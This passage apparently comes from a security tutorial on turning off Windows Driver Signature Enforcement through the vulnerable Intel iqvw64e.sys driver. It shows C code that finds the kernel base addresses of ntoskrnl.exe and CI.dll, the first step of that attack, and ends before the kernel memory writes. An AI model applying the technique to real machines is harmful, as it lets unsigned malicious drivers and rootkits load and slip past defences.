 [](#Disabling-DSE-via-Vulnerable-Driver "Disabling DSE via Vulnerable Driver")Disabling DSE via Vulnerable Driver
-----------------------------------------------------------------------------------------------------------------

Now that we have seen all of the moving parts, let’s consider another scenario: What if we want to disable DSE using a vulnerable driver rather than malicious driver signed with a leaked certificate? Well as we’ve seen above, all that we require are read/write primitives in a vulnerable driver, and there are no shortage of those!

Let’s use the a vulnerable driver to disable DSE. In this case we’ll use Intel’s `iqvw64e.sys` driver which has been quite popular for a while. As we aren’t executing code in the kernel this time, we’re going to have to do a few additional steps to calculate our addresses in user-mode.

First we need the base addresses of both `ntoskrnl.exe` and `ci.dll`. This is easy with `NtQuerySystemInformation` and `SystemModuleInformation`:

```
ULONG_PTR GetKernelModuleAddress(const char *name) {

	DWORD size = 0;
	void* buffer = NULL;
	PRTL_PROCESS_MODULES modules;
	
	NTSTATUS status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemModuleInformation, buffer, size, &size);

	while (status == STATUS_INFO_LENGTH_MISMATCH) {
		VirtualFree(buffer, 0, MEM_RELEASE);

		buffer = VirtualAlloc(NULL, size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
		status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemModuleInformation, buffer, size, &size);
	}

	if (!NT_SUCCESS(status))
	{
		VirtualFree(buffer, 0, MEM_RELEASE);
		return NULL;
	}

	modules = (PRTL_PROCESS_MODULES)buffer;

	for (int i=0; i < modules->NumberOfModules; i++)
	{
		char* currentName = (char*)modules->Modules[i].FullPathName + modules->Modules[i].OffsetToFileName;

		if (!_stricmp(currentName, name)) {
			ULONG_PTR result = (ULONG_PTR)modules->Modules[i].ImageBase;

			VirtualFree(buffer, 0, MEM_RELEASE);
			return result;
		}
	}

	VirtualFree(buffer, 0, MEM_RELEASE);
	return NULL;
}
...

ULONG_PTR kernelBase = GetKernelModuleAddress("ntoskrnl.exe");
ULONG_PTR ciBase = GetKernelModuleAddress("CI.dll");

```
